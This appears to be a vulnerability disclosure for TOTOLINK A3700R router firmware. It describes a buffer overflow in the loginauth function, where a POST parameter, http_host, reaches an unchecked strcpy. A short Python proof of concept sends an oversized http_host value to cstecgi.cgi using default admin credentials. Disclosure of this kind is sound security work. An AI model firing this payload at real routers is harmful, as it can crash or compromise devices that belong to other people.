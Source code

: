 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/data/upload/20200728/311b3ec5b0a8e61af298aebda158ec9b.zip

## Affected version

A3700R V9.1.2u.5822_B20200513

## Vulnerability details

In the A3700R V9.1.2u.5822_B20200513 firmware has a buffer overflow vulnerability in the `loginauth` function. The `v8` variable receives the `http_host` parameter from a POST request. However, since the user can control the input of `http_host`, the statement `strcpy(v26, v8);` can cause a buffer overflow injection vulnerability.

![image-20240719101917489](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101917489.png)

![image-20240719101821295](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101821295.png)

![image-20240719101834445](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101834445.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"username":"admin","password":"admin","http_host":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719101631080](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101631080.png)
